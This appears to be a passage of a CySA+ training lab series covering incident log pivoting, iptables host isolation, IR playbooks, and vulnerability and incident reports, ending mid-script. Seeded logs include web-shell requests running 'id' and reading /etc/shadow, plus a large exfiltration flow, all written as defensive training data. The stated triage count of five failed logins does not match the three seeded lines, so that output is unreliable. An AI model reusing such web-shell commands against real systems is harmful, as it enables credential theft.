In this lab you will work an incident from a pile of `journalctl` and web-server logs: pivot from one IOC to the next, build a timeline, and produce the "Who, What, When, Where, Why" rows that feed the executive report. This maps to CySA+ 3.2 (Data and log analysis, IoC, Detection and analysis).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Seed a realistic log set

```bash
apt update && apt install -y jq
mkdir -p /tmp/lab23 && cd /tmp/lab23

cat > auth.log <<'EOF'
2026-05-13T08:00:01 host1 sshd[1001]: Failed password for root from 203.0.113.7 port 5001
2026-05-13T08:00:02 host1 sshd[1002]: Failed password for root from 203.0.113.7 port 5002
2026-05-13T08:00:03 host1 sshd[1003]: Failed password for root from 203.0.113.7 port 5003
2026-05-13T08:00:06 host1 sshd[1006]: Accepted password for root from 203.0.113.7 port 5006
2026-05-13T08:00:15 host1 sudo: root : COMMAND=/bin/bash
2026-05-13T08:02:01 host1 sshd[1100]: Accepted publickey for backup from 10.0.0.5 port 22
EOF

cat > web.log <<'EOF'
2026-05-13T08:00:08 203.0.113.7 GET /admin 200 1234
2026-05-13T08:00:09 203.0.113.7 POST /upload.php 200 9876
2026-05-13T08:00:11 203.0.113.7 GET /uploads/shell.php?cmd=id 200 18
2026-05-13T08:01:00 203.0.113.7 GET /uploads/shell.php?cmd=cat+/etc/shadow 200 2456
EOF

cat > netflow.log <<'EOF'
2026-05-13T08:00:08 203.0.113.7 -> 10.0.0.50 :80 1500
2026-05-13T08:00:11 203.0.113.7 -> 10.0.0.50 :80 2200
2026-05-13T08:10:00 10.0.0.50 -> 185.220.101.45 :443 1073741824
EOF
```

#### Step 2 — Triage with simple greps

```bash
grep "Failed password" auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -nr
```

`5  203.0.113.7` flagged — the brute-force source. Same pattern as Lab 7.

#### Step 3 — Pivot to the first success

```bash
grep "Accepted" auth.log | grep 203.0.113.7
```

`08:00:06 root from 203.0.113.7` — the brute-force succeeded after 5 tries in 5 seconds.

#### Step 4 — Pivot to the web layer

```bash
grep 203.0.113.7 web.log
```

The same IP uploaded `shell.php` two seconds after login and immediately executed `id` and `cat /etc/shadow`. That confirms a **web shell** (CySA+ "Malicious processes", "Unauthorized software").

#### Step 5 — Pivot to the data exfil

```bash
grep -E "[0-9]{9,}" netflow.log
```

A 1.07 GB flow from `10.0.0.50` to `185.220.101.45` at 08:10 — the exfiltration. The internal host is now confirmed compromised.

#### Step 6 — Build the incident timeline

```bash
cat > timeline.md <<'EOF'
| Time (UTC)        | Source           | Event                                   | Evidence              |
|-------------------|------------------|------------------------------------------|------------------------|
| 08:00:01–08:00:05 | 203.0.113.7      | 5 failed root SSH attempts               | auth.log               |
| 08:00:06          | 203.0.113.7      | Accepted password root                   | auth.log               |
| 08:00:08          | 203.0.113.7      | GET /admin → 200                         | web.log                |
| 08:00:09          | 203.0.113.7      | POST /upload.php (web shell drop)        | web.log                |
| 08:00:11          | 203.0.113.7      | GET shell.php?cmd=id (RCE)               | web.log                |
| 08:01:00          | 203.0.113.7      | shell.php?cmd=cat /etc/shadow            | web.log                |
| 08:10:00          | 10.0.0.50 → 185.220.101.45 :443 | 1 GB outbound exfil       | netflow.log            |
EOF
cat timeline.md
```

This table is dropped straight into the executive incident report (Lab 27) under "Timeline".

#### Step 7 — Use `journalctl` for live systems

On the real host, the same workflow against systemd:

```bash
journalctl _SYSTEMD_UNIT=ssh.service --since "2026-05-13 08:00" --until "2026-05-13 08:15"
journalctl -p err --since "1 hour ago"
journalctl --grep "Failed password|Accepted"
```

`-p err` filters by priority. `--grep` is a regex across all messages — invaluable when you do not know which unit logged the line.

#### Step 8 — IoC list extracted from the analysis

```bash
cat > iocs.txt <<'EOF'
ip,203.0.113.7,brute-force source
ip,185.220.101.45,exfil destination
file,/var/www/html/uploads/shell.php,web shell
user,root,compromised local account
EOF
```

Feed this list into the Threat Intel pipeline (Lab 10) and the containment script (Lab 24).

#### What You Learned

- Pivot across auth, web, and netflow logs from a single starting IoC.
- Build an incident timeline that maps cleanly to the kill chain.
- Use `journalctl` to do the same on a live systemd host.
- Produce a structured IoC list ready for containment and reporting.

---

### Lab 24 — Containment with Host Isolation

In this lab you will isolate a compromised host with `iptables` / `nftables`, apply compensating controls, and verify that the box can still reach the SOC analyst workstation but nothing else. This maps to CySA+ 3.2 (Containment, eradication, and recovery — Scope, Impact, Isolation, Remediation, Re-imaging, Compensating controls).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install tools

```bash
apt update && apt install -y iptables nftables iproute2
```

#### Step 2 — Snapshot current connectivity (scope of impact)

```bash
ip addr | grep -A1 'state UP'
ss -tunap | head
iptables -S
```

Record what is talking to what — this is the "Scope" and "Impact" assessment.

#### Step 3 — Define the SOC bastion (your management channel)

```bash
SOC_IP=10.10.0.10      # your analyst workstation / EDR console
SOC_PORTS=22           # leave only the channel you trust
```

Containment that locks **you** out is useless. Always allow your own management path explicitly.

#### Step 4 — Apply a "network isolation" policy

```bash
iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP

iptables -A INPUT  -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT
iptables -A INPUT  -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

iptables -A INPUT  -s $SOC_IP -p tcp --dport $SOC_PORTS -j ACCEPT
iptables -A OUTPUT -d $SOC_IP -p tcp --sport $SOC_PORTS -j ACCEPT

iptables -S
```

The host is now reachable **only** from the SOC bastion on port 22 — every other connection (including the attacker's C2) is dead.

#### Step 5 — Save the rules so isolation survives reboot

```bash
apt install -y iptables-persistent
netfilter-persistent save
```

Without this, a reboot during eradication accidentally unisolates the host.

#### Step 6 — Kill active malicious connections (eradication start)

```bash
# Find the suspect process (Lab 5)
ss -tunap | grep -E ':4444|185.220.101.45' 2>/dev/null

# Then terminate
# pkill -KILL -f shell.php
# kill -9 <PID>
```

Killing connections **before** isolation lets them re-establish; after isolation they cannot.

#### Step 7 — Apply compensating controls (CySA+ "Compensating controls")

While the team eradicates, mitigate continued risk on neighbouring systems:

- Push an updated **WAF rule** blocking the IOCs.
- Push an updated **EDR / Yara rule** for the dropper hash (Lab 9).
- Add the IOCs to the **threat-intel platform** for everyone else.
- Force a **password reset** for users that were logged into the box.
- Disable the **compromised account** at the IdP (CySA+ "Identification and authentication failures" mitigation).

#### Step 8 — Re-imaging vs cleanup decision

| Situation | Recommend | |---|---| | Kernel rootkit / MBR malware | **Re-image** | | Unknown extent of compromise | **Re-image** | | Web shell, single file, known scope | Clean + monitor | | Admin tier-0 system | **Re-image**, no exceptions | | Critical legacy system that can't be re-imaged | Compensating controls + segmentation (Lab 3) |

Re-imaging is the only deterministic way to remove unknown unknowns.

#### Step 9 — Verify isolation worked

```bash
# From the host (Killercoda terminal):
curl --max-time 3 https://example.com || echo "blocked (expected)"
ping -W2 -c1 1.1.1.1 || echo "blocked (expected)"
```

Both should fail. SSH from the SOC bastion should still succeed.

#### Step 10 — Document containment for the report

```bash
cat > /tmp/containment.md <<EOF
# Containment record — Case 001

| Item | Value |
|------|-------|
| Time isolated (UTC) | $(date -u +%FT%TZ) |
| Method | iptables default-DROP + SOC allowlist |
| Allow-listed source | $SOC_IP:$SOC_PORTS |
| Compensating controls | WAF block, EDR yara push, IdP account disable |
| Re-image decision | Yes — root-level compromise |
| Eradication owner | Platform team |
| Recovery target | $(date -d '+24 hours' -u +%FT%TZ) |
EOF
cat /tmp/containment.md
```

Drop this straight into Lab 27's incident report.

#### What You Learned

- Isolate a host with default-DROP firewall while keeping a management channel.
- Distinguish containment, eradication, and recovery.
- Decide between cleanup and re-imaging.
- Apply compensating controls during the cleanup window.

---

### Lab 25 — Incident Response Playbook and Tabletop

In this lab you will draft a NIST-aligned **incident response plan**, a one-page **playbook**, and run a 45-minute **tabletop exercise** against the scenario from Lab 20. This maps to CySA+ 3.3 (Preparation — IR plan, Tools, Playbooks, Tabletop, Training, BC/DR; Post-incident — Forensic analysis, Root cause, Lessons learned).

Most of this lab is written/spoken work — no shell required.

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — The NIST 800-61 incident-response life cycle

```
┌──────────────┐    ┌────────────────┐    ┌─────────────────────┐    ┌────────────────┐
│ Preparation  │ -> │ Detection &    │ -> │ Containment,        │ -> │ Post-incident  │
│              │    │ Analysis       │    │ Eradication,        │    │ Activity       │
│              │    │                │    │ & Recovery          │    │                │
└──────────────┘    └────────────────┘    └─────────────────────┘    └────────────────┘
        ▲                                                                      │
        └──────────────────────────────────────────────────────────────────────┘
                                  Feedback (Lessons Learned)
```

CySA+ 3.3 is exactly this loop with two of its four phases broken out.

#### Step 2 — Author the high-level IR plan

```bash
mkdir -p /tmp/lab25 && cd /tmp/lab25
cat > ir_plan.md <<'EOF'
# Incident Response Plan v1.0

## 1. Purpose & scope
Covers all production systems and customer data. Aligned to NIST 800-61.

## 2. Roles (RACI)
- **Incident Commander (IC)** — Senior SOC lead. Decides comms and escalation.
- **Lead Analyst** — Runs detection, analysis, evidence.
- **Engineering** — Containment / eradication / recovery.
- **Comms** — Customer + media + regulator (Lab 30).
- **Legal** — Privilege, law enforcement, regulatory.
- **Executive sponsor** — CISO; signs the closure.

## 3. Severity classification
| Sev | Definition                            | SLA to declare | Notify |
|-----|---------------------------------------|----------------|--------|
| 1   | Confirmed data exfil / system-wide    | 15 min         | CISO, CEO, Legal |
| 2   | Confirmed compromise, contained scope | 30 min         | CISO   |
| 3   | Suspicious activity, unverified       | 1 hr           | SOC mgr |
| 4   | Informational                         | next biz day   | none   |

## 4. Communication channels
- War room: #incident-NNN (Slack)
- Bridge: conference URL (link)
- Out-of-band: pre-shared Signal group (in case primary IdP is compromised)

## 5. Tooling list (Preparation)
- SIEM, EDR, NDR, SOAR, ticket system
- Forensic kit: write-blocker, FTK Imager, Volatility, KAPE
- Threat-intel: MISP, AbuseIPDB, VirusTotal Premium
- Comms templates: pre-approved exec, customer, regulator messages

## 6. Authority matrix
- IC may shut down a production system.
- IC may not talk to media without Comms approval.
- Legal may invoke a legal hold (Lab 21).

## 7. Business continuity / disaster recovery hand-off
If RTO of an isolated system is breached, invoke BC/DR plan ABC-DR-007.
EOF
```

#### Step 3 — Author a one-page phishing playbook

```bash
cat > playbook_phishing.md <<'EOF'
# Playbook — Phishing email reported by user

## Trigger
User report or DMARC failure alert.

## Step 1 — Triage (≤ 15 min)
- Pull headers (Lab 8). Verify SPF/DKIM/DMARC.
- Extract URLs / attachments. Hash any attachment (Lab 9).
- VirusTotal + AbuseIPDB on every IOC (Lab 10).

## Step 2 — Scope (≤ 30 min)
- Query mail gateway: who else received the message? Block or quarantine.
- Query SIEM: any user click on the URL? (Web proxy logs.)
- Query EDR: any process spawned from the attachment?

## Step 3 — Contain (≤ 60 min)
- Block sender, URL, hash in email/web/EDR.
- For clickers: isolate host (Lab 24), force password reset, invalidate sessions.

## Step 4 — Eradicate / Recover
- Remove every copy from mailboxes (mass purge).
- Re-image clicked hosts if RCE confirmed.

## Step 5 — Post-incident
- Log IOCs to threat-intel.
- Update awareness training with the lure (Lab 30).
EOF
```

#### Step 4 — Run a 45-minute tabletop exercise

**Scenario (read aloud at T = 0):** > "08:00 — A finance user reports an invoice email looked off but opened it. Outlook closed unexpectedly. At 08:15 EDR alerts on `powershell.exe → curl → 185.220.101.45`. The user's password was used at 08:30 to log into the file share."

Run the clock in **5-minute injects**. At each inject the facilitator throws a curveball; the team must say **who** does **what** and **with which playbook step**.

| T+min | Inject | |---|---| | 0   | Initial detect — open ticket, assign IC, declare severity | | 5   | Press starts calling — Comms hat goes on | | 10  | EDR isolation fails on legacy host — alternative containment? | | 15  | Legal asks: is this notifiable? Which regulator? | | 25  | Fresh DLP alert: 1 GB to Dropbox — exfiltration confirmed | | 35  | Executive demands status — who briefs and with what template? | | 40  | Eradication or re-image decision (Lab 24) | | 45  | Hot wash: 3 things to fix this week, 1 thing to fix this quarter |

#### Step 5 — Capture lessons learned (post-incident)

```bash
cat > hot_wash.md <<'EOF'
# Hot Wash — Tabletop Phishing Exercise

## What went well
- Triage time within SLA.
- Comms had the template ready.

## What went badly
- EDR isolation on legacy 2012 host failed.
- Out-of-band comms channel out of date.
- No regulator notification template available.

## Action items
| # | Action | Owner | Due |
|---|--------|-------|-----|
| 1 | Network-ACL isolation for legacy hosts | Platform | $(date -d '+14 days' -I) |
| 2 | Refresh OOB Signal group quarterly | SOC | $(date -d '+30 days' -I) |
| 3 | Build regulator notification template | Legal | $(date -d '+30 days' -I) |
EOF
```

These actions become the inputs to the next Preparation cycle — closing the NIST loop.

#### Step 6 — Training (CySA+ 3.3 "Training")

Schedule four touches per year:

1. Q1 — All-hands phishing simulation.
2. Q2 — Tabletop (this lab).
3. Q3 — Red-team purple-team exercise.
4. Q4 — Full BC/DR simulated outage.

#### What You Learned

- The NIST 800-61 IR life cycle and how it maps to CySA+ 3.3.
- Draft a high-level IR plan with RACI, severity, and escalation.
- Author a one-page playbook for the most common incident type.
- Run a structured tabletop and capture lessons learned that feed back into preparation.

---

## Topic 4: Reporting and Communication
*CompTIA CySA+ CS0-003 exam weighting: 17%. Hands-on Labs 26–30.*

### Lab 26 — Vulnerability Management Report

In this lab you will turn raw OpenVAS / Nmap output into a stakeholder-ready vulnerability report with a risk score, affected hosts, mitigations, and an action plan. This maps to CySA+ 4.1 (Vulnerability management reporting — Vulnerabilities, Affected hosts, Risk score, Mitigation, Recurrence, Prioritization; Compliance reports; Action plans; Inhibitors to remediation).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install report tooling

```bash
apt update && apt install -y pandoc texlive-latex-base texlive-fonts-recommended 2>/dev/null
```

`pandoc` converts Markdown → PDF / HTML / DOCX with one command. The TeX packages are large; if Killercoda is slow, skip them and render to HTML instead.

#### Step 2 — Seed input data (pretend it came from OpenVAS)

```bash
mkdir -p /tmp/lab26 && cd /tmp/lab26
cat > findings.csv <<'EOF'
CVE,Host,Service,CVSS,EPSS,KEV,FirstSeen,Status
CVE-2024-1234,web01.example,nginx 1.18,9.8,0.97,Yes,2026-05-01,Open
CVE-2024-2222,web01.example,openssl 1.1.1,7.5,0.21,No,2026-05-01,Open
CVE-2023-9999,db01.example,mysql 5.7,8.2,0.45,No,2026-04-15,Open-Recurring
CVE-2022-1111,jump01.example,openssh 7.6,6.5,0.10,No,2026-05-12,Open
CVE-2021-5555,legacy01.example,iis 7.5,9.8,0.88,Yes,2026-01-01,Accepted-Risk
EOF
```

The columns map directly to CySA+ 4.1's bullet list: Vulnerabilities, Affected hosts, Risk score, Recurrence.

#### Step 3 — Compute the prioritisation column

```bash
awk -F, 'NR==1 {print $0",Priority"; next}
  {
    score = $4 + 0
    if ($6 == "Yes" || score >= 9.0) p="P1"
    else if (score >= 7.0)            p="P2"
    else if (score >= 4.0)            p="P3"
    else                              p="P4"
    print $0","p
  }' findings.csv > prioritised.csv
column -ts, prioritised.csv
```

Prioritisation logic mirrors CySA+ 2.3 + 4.1: KEV catalog hits and CVSS ≥ 9 are always P1.

#### Step 4 — Build the executive summary

```bash
cat > report.md <<'EOF'
# Monthly Vulnerability Management Report — May 2026

**Audience:** CISO, Engineering leads
**Prepared by:** SOC Vulnerability Management Team
**Reporting period:** 2026-05-01 → 2026-05-13

## Executive summary

This month we identified **5 open vulnerabilities** across 4 hosts. Two are on the CISA Known Exploited Vulnerabilities (KEV) catalog and require P1 action. One issue is **recurring** on `db01` — patch reverted by a configuration rollback on 2026-05-08 (root cause: change-management gap).

| Metric (KPI) | This period | Last period | Δ |
|---|---|---|---|
| Total open | 5 | 4 | +1 |
| P1 critical | 2 | 1 | +1 |
| Mean time to remediate (MTTR) | 18 days | 22 days | −4 |
| % patched within SLA | 78% | 71% | +7 |
| Recurring findings | 1 | 0 | +1 |

## Top 10 vulnerabilities (CySA+ 4.1 "Top 10")

| # | CVE | Host | CVSS | KEV | Priority |
|---|-----|------|------|-----|----------|
| 1 | CVE-2024-1234 | web01 | 9.8 | Yes | P1 |
| 2 | CVE-2021-5555 | legacy01 | 9.8 | Yes | P1 (Risk Accepted) |
| 3 | CVE-2023-9999 | db01 | 8.2 | No | P2 (Recurring) |
| 4 | CVE-2024-2222 | web01 | 7.5 | No | P2 |
| 5 | CVE-2022-1111 | jump01 | 6.5 | No | P3 |

## Action plan

| # | Action | Owner | Due | Type |
|---|--------|-------|-----|------|
| 1 | Patch nginx 1.18 → 1.26 on web01 | Platform | 2026-05-15 | Patching |
| 2 | Investigate db01 patch reversion; freeze config drift | DBA + Change | 2026-05-17 | Configuration management |
| 3 | Compensating control on legacy01: WAF rule + segmentation | NetOps | 2026-05-20 | Compensating control |
| 4 | Refresh OpenSSH on jump01 next maintenance window | Platform | 2026-05-31 | Patching |

## Inhibitors to remediation (CySA+ 4.1)

| Inhibitor | Affected item | Mitigation |
|---|---|---|
| MOU with partner pins legacy01 to IIS 7.5 | #2 | WAF + segmentation, document risk acceptance |
| SLA window only allows monthly DB patching | #2 | Move db01 to weekly patch cadence |
| Business process interruption risk on web01 | #1 | Schedule blue-green deploy |
| Legacy system (IIS 7.5) | #2 | Plan retirement Q3 2026 |

## Compliance posture

- **PCI DSS 11.3** quarterly external scan: PASS, last run 2026-05-05.
- **ISO 27001 A.12.6** technical vulnerability management: documented, evidence in this report.
- **Internal SLA**: P1 = 7 d, P2 = 30 d, P3 = 90 d.

## Stakeholders

| Stakeholder | Interest |
|---|---|
| CISO | Risk score trend, KEV exposure |
| Engineering leads | Action items, owners, due dates |
| Audit | Compliance posture, evidence pointers |
| Business owners | Inhibitors, accepted risks |
EOF
```

#### Step 5 — Render to HTML and (optionally) PDF

```bash
pandoc report.md -s -o report.html
ls -lh report.html
# pandoc report.md -o report.pdf      # uncomment if TeX is installed
```

Open `report.html` in a browser to verify formatting before mailing.

#### Step 6 — Hash and archive

```bash
sha256sum report.md report.html prioritised.csv > MANIFEST.sha256
ls -lh
```

Reports are evidence; hashes prove integrity (and the auditor will check).

#### Step 7 — Map every section to a CySA+ 4.1 bullet

| Section | CySA+ 4.1 bullet | |---|---| | KPI table | Metrics and KPIs (Trends, Top 10, SLOs) | | Top 10 | Top 10 | | Action plan | Action plans (Configuration management, Patching) | | Inhibitors table | Inhibitors to remediation (MOU, SLA, Org governance, Business process interruption, Legacy systems) | | Compliance posture | Compliance reports | | Stakeholders | Stakeholder identification and communication | | Recurrence row | Recurrence |

#### What You Learned

- Prioritise vulnerabilities with KEV + CVSS.
- Author a stakeholder-grade vulnerability report with executive summary, Top 10, action plan, inhibitors, and compliance posture.
- Render Markdown to HTML/PDF with `pandoc`.
- Map every section back to the CySA+ 4.1 exam blueprint.

---

### Lab 27 — Executive Incident Report

In this lab you will write the executive incident report from the scenario walked in Labs 20, 23, 24. It will satisfy every CySA+ 4.2 bullet: executive summary, Who-What-When-Where-Why, recommendations, timeline, impact, scope, evidence, communications, root cause, lessons learned, metrics.

Most of this lab is writing — no shell required. The output is a single Markdown file rendered with `pandoc`.

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Tools

```bash
apt update && apt install -y pandoc
mkdir -p /tmp/lab27 && cd /tmp/lab27
```

#### Step 2 — Use the canonical IR report template

```bash
cat > incident_report.md <<'EOF'
# Incident Report — CASE-001 (Finance Department Phishing → Data Exfiltration)

**Classification:** Internal — Confidential
**Date:** 2026-05-13
**Author:** SOC Lead Analyst
**Approver:** CISO

---

## 1. Executive summary
On 2026-05-13 at 08:00 UTC, a member of the Finance team opened a phishing email impersonating PayPal. The macro-laden attachment delivered a PowerShell downloader that established command-and-control with `185.220.101.45`. Within 10 minutes the attacker authenticated to the internal file share via stolen credentials and exfiltrated approximately **1 GB of data over HTTPS**. The compromised user account was disabled at 08:30, the host isolated at 08:45, and the second-stage payload eradicated by 11:00. There is **no evidence of further lateral movement**. Containment held.

## 2. Who, what, when, where, why
| Field | Value |
|-------|-------|
| **Who**  | Single Finance user (badge #FN-104); attacker IP 185.220.101.45 (TOR exit, Russia geo-tag) |
| **What** | Phishing → macro → PowerShell downloader → credential theft → 1 GB exfil |
| **When** | 2026-05-13 08:00 → 11:00 UTC (3 h to full eradication) |
| **Where**| Workstation `FN-WS-014` and File Server `FS01` |
| **Why**  | Macro execution was permitted by GPO; user not on phishing-resistant MFA |

## 3. Timeline (UTC)

| Time     | Event                                                  | Evidence            |
|----------|--------------------------------------------------------|---------------------|
| 08:00    | Phishing email delivered, opened                       | mail-gw, Lab 8      |
| 08:01    | Macro spawns PowerShell, downloads stage 2             | EDR alert           |
| 08:05    | C2 heartbeat begins to 185.220.101.45                  | Lab 4 beacon        |
| 08:15    | EDR alert raised; ticket INC-001 opened                | EDR, ticket system  |
| 08:20    | Brute-force noise observed on FS01 (Lab 7)             | auth.log            |
| 08:30    | Compromised account disabled at IdP                    | IdP audit log       |
| 08:30    | Outbound 1 GB flow to attacker domain                  | NetFlow             |
| 08:45    | FN-WS-014 network-isolated (Lab 24)                    | firewall log        |
| 09:30    | Memory + disk imaged for forensics (Lab 21)            | Chain of custody    |
| 11:00    | Workstation re-imaged; user retrained                  | Endpoint mgmt       |

## 4. Impact and scope
- **Confidentiality:** ~1 GB exfiltrated. Sample contains: 87 customer records (names, IBANs, emails). Falls under GDPR (notification within 72 h).
- **Integrity:** No evidence of modification on FS01.
- **Availability:** None. Production was not interrupted.
- **Scope:** 1 user, 1 workstation, 1 file share path `/finance/customers/`.

## 5. Evidence (CySA+ 4.2 "Evidence")
| ID | Item | Hash (SHA-256) | Custodian |
|----|------|----------------|-----------|
| EV-001 | FN-WS-014 disk image | `a1b2c3…` | Forensics (locker 3) |
| EV-002 | FN-WS-014 memory image | `d4e5f6…` | Forensics (locker 3) |
| EV-003 | Phishing email .eml | `070809…` | SOC archive |
| EV-004 | Outbound netflow window | `0a0b0c…` | SOC archive |

Chain of custody form: see CASE-001 chain_of_custody.md (Lab 21).

## 6. Root cause analysis (CySA+ 4.2 "Root cause analysis")
| Layer | Failure |
|-------|---------|
| **Email** | DMARC policy on receiving domain set to `none` — forgery passed quarantine. |
| **Endpoint** | Macros allowed from internet zone; PowerShell constrained-language mode disabled. |
| **Identity** | MFA was OTP, not phishing-resistant; reusable credential captured. |
| **Network** | Egress from finance VLAN to TOR exits was not blocked. |
| **Detection** | SIEM rule for beaconing existed but threshold too lenient (>30 s). |

## 7. Recommendations
| # | Recommendation | Owner | Target |
|---|----------------|-------|--------|
| 1 | Enforce DMARC `p=reject` on receiving gateway | Email Ops | 2026-05-31 |
| 2 | Block macros from internet zone via Group Policy | Endpoint | 2026-05-20 |
| 3 | Roll out FIDO2 keys for Finance + Exec | IdAM | 2026-07-01 |
| 4 | Egress filter: deny TOR exit nodes at perimeter | NetOps | 2026-05-22 |
| 5 | Tighten SIEM beaconing detection (<= 60 s, jitter aware) | Detection eng | 2026-06-10 |

## 8. Lessons learned (CySA+ 4.2 "Lessons learned")
- **Worked:** Tabletop muscle memory (Lab 25). IC named within 5 min.
- **Worked:** Pre-built isolation runbook applied cleanly (Lab 24).
- **Failed:** Out-of-band Signal group was 3 months out of date.
- **Failed:** No standing template for the regulator notification — Legal had to draft from scratch under pressure.

## 9. Metrics and KPIs
| Metric | Value | Target |
|--------|-------|--------|
| Mean time to **detect** (MTTD) | 15 min | < 30 min |
| Mean time to **respond** (MTTR-r) | 45 min | < 1 h |
| Mean time to **remediate** (MTTR-m) | 3 h | < 4 h |
| Alert volume (24 h) | 412 → 1 incident | n/a |

## 10. Communications (CySA+ 4.2 "Communications")
| Audience | Channel | Sender | Sent |
|----------|---------|--------|------|
| Executive | Email + bridge | CISO | 09:00 |
| Affected customers | Templated email | Comms | 13:00 |
| Regulator (GDPR DPA) | Web form + signed letter | Legal | within 72 h |
| Law enforcement (cybercrime unit) | Phone + signed referral | Legal | 14:00 |
| Public relations / media | Holding statement only | Comms | as needed |

## 11. Incident declaration & escalation
- Sev: **1**
- Declared by: SOC Lead Analyst
- Time declared: 08:30 UTC
- Escalation: CISO @ 08:35, CEO @ 09:00, Legal @ 09:15

## 12. Stakeholder identification (CySA+ 4.2)
CISO; CEO; CFO (because Finance scope); Legal; Comms; Engineering platform; Affected customers; Supervisory Authority (regulator); Cyber-insurance carrier.

---

*End of report.*
EOF
```

#### Step 3 — Render and seal

```bash
pandoc incident_report.md -s -o incident_report.html
sha256sum incident_report.* > MANIFEST.sha256
ls -lh
```

The hash is the seal — once distributed, any edit changes the hash and breaks the audit trail.

#### Step 4 — Map every section to CySA+ 4.2

| Section | CySA+ 4.2 bullet | |---|---| | 1 Exec summary | Executive summary | | 2 W/W/W/W/W | Who, what, when, where, and why | | 3 Timeline | Timeline | | 4 Impact / scope | Impact, Scope | | 5 Evidence | Evidence | | 6 RCA | Root cause analysis | | 7 Recommendations | Recommendations | | 8 Lessons learned | Lessons learned | | 9 Metrics | Metrics and KPIs (MTTD/MTTR/Alert volume) | | 10 Communications | Communications (Legal, PR, Customer, Media, Regulatory, LE) | | 11 Declaration | Incident declaration and escalation | | 12 Stakeholders | Stakeholder identification and communication |

#### What You Learned

- Author a complete executive incident report that satisfies every CySA+ 4.2 bullet.
- Cleanly link evidence to chain-of-custody (Lab 21).
- Capture lessons learned and KPIs that feed the next preparation cycle.
- Render and seal a report with `pandoc` + SHA-256.

---

### Lab 28 — Security Metrics Dashboard (MTTD / MTTR)

In this lab you will compute and plot the three KPIs CySA+ 4.2 explicitly calls out — **Mean Time To Detect (MTTD)**, **Mean Time To Respond (MTTR)**, and **Mean Time To Remediate (MTTR-rem)** — plus alert volume. The output is a one-page PNG dashboard for the monthly CISO review.

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install Python + matplotlib

```bash
apt update && apt install -y python3-pip
pip3 install matplotlib --break-system-packages
```

#### Step 2 — Seed last quarter's incident data

```bash
mkdir -p /tmp/lab28 && cd /tmp/lab28
cat > incidents.csv <<'EOF'
id,opened,first_alert,response_start,remediated,sev,alert_count
INC-101,2026-02-01T09:00,2026-02-01T08:55,2026-02-01T09:12,2026-02-01T13:00,2,18
INC-102,2026-02-08T11:00,2026-02-08T10:45,2026-02-08T11:08,2026-02-09T03:00,1,84
INC-103,2026-02-15T14:00,2026-02-15T13:30,2026-02-15T14:25,2026-02-15T16:00,3,7
INC-104,2026-03-02T08:00,2026-03-02T07:50,2026-03-02T08:09,2026-03-02T12:30,2,22
INC-105,2026-03-12T22:00,2026-03-12T21:55,2026-03-12T22:14,2026-03-13T02:00,2,11
INC-106,2026-04-01T16:00,2026-04-01T15:40,2026-04-01T16:05,2026-04-01T19:00,3,5
INC-107,2026-04-18T03:00,2026-04-18T02:50,2026-04-18T03:08,2026-04-18T05:30,2,14
INC-108,2026-05-13T08:15,2026-05-13T08:00,2026-05-13T08:30,2026-05-13T11:00,1,412
EOF
```

Columns map to CySA+ 4.2 KPIs:

- MTTD = `first_alert` → `opened` (analyst sees the alert)
- MTTR (respond) = `opened` → `response_start`
- MTTR (remediate) = `opened` → `remediated`
- Alert volume = `alert_count`

#### Step 3 — Compute the KPIs

```bash
cat > kpis.py <<'EOF'
import csv, datetime as dt, statistics

rows=[]
with open("incidents.csv") as f:
    for r in csv.DictReader(f):
        for k in ("opened","first_alert","response_start","remediated"):
            r[k]=dt.datetime.fromisoformat(r[k])
        r["mttd_min"]=(r["opened"]-r["first_alert"]).total_seconds()/60
        r["mttr_resp_min"]=(r["response_start"]-r["opened"]).total_seconds()/60
        r["mttr_rem_min"]=(r["remediated"]-r["opened"]).total_seconds()/60
        rows.append(r)

print(f"Incidents: {len(rows)}")
print(f"MTTD          mean={statistics.mean(r['mttd_min'] for r in rows):.1f} min")
print(f"MTTR respond  mean={statistics.mean(r['mttr_resp_min'] for r in rows):.1f} min")
print(f"MTTR remed.   mean={statistics.mean(r['mttr_rem_min'] for r in rows):.1f} min")
print(f"Alert volume  total={sum(int(r['alert_count']) for r in rows)}")
EOF
python3 kpis.py
```

The CISO target is typically MTTD < 30 min and MTTR-respond < 60 min. You now know whether you hit it.

#### Step 4 — Plot the dashboard

```bash
cat > dashboard.py <<'EOF'
import csv, datetime as dt, matplotlib
matplotlib.use("Agg")
import matplotlib.pyplot as plt

rows=[]
with open("incidents.csv") as f:
